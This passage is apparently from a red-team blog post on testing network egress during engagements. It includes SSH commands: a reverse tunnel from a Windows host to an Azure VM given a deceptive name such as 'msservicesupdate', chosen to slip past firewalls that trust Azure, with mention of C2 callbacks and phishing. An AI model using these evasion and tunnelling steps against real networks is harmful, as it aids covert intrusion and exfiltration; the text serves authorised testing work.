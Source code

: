 > ```
> ssh root@scanme.nmap.org
> # if you get a  prompt, you've struck gold!
> # pls don't do anything abusive or malicious to scanme.nmap.org!
> ```

Of course, it is not always so easy that it works right away, and whilst not in assumed breach you wouldn’t have the luxury of a PowerShell session to check the client’s firewall. So, what if Scanme is not reachable? The first thing I would try is to use a VPS on Azure. The underlying reason is that Windows environments are highly likely to be on Active Directory and most likely Hybrid. There is a high likelihood that the client’s stack requires either Microsoft own IPs to be allowlisted, or Azure subdomains to be blanket trusted.

What I’d do is to spin up a VM from Azure and then give it an azure subdomain from the Public IP address settings: Public IP > Settings > Configuration > DNS name label (optional) -> Enter your desired subdomain name.

![screenshot2](images/screenshot2.png "screenshot2")

> ```
> ssh.exe -R 8888 user@innocent-looking-front.REGION.cloudapp.azure.com
> ```

Something mundane such as msservicesupdate.uksouth.cloudapp.azure.com should be fine. This has been proven to work in many of our engagements.

### ASN to the rescue

Domains tend to have higher success rates on phish emails or C2 callbacks because corporate firewalls tend to block requests to raw non-internal IPs. However, [Azure domain fronting](https://www.microsoft.com/en-us/security/blog/2021/03/26/securing-our-approach-to-domain-fronting-within-azure/) (some practitioners use Azure CDN fronting) is actually known to Microsoft themselves too. Perhaps the blue team / Sysadmin in the client knew this and blocked outbound access to \*.region.cloudapp.azure.com for example because they know about this technique and give their own DNS hostnames to their Azure VMs?
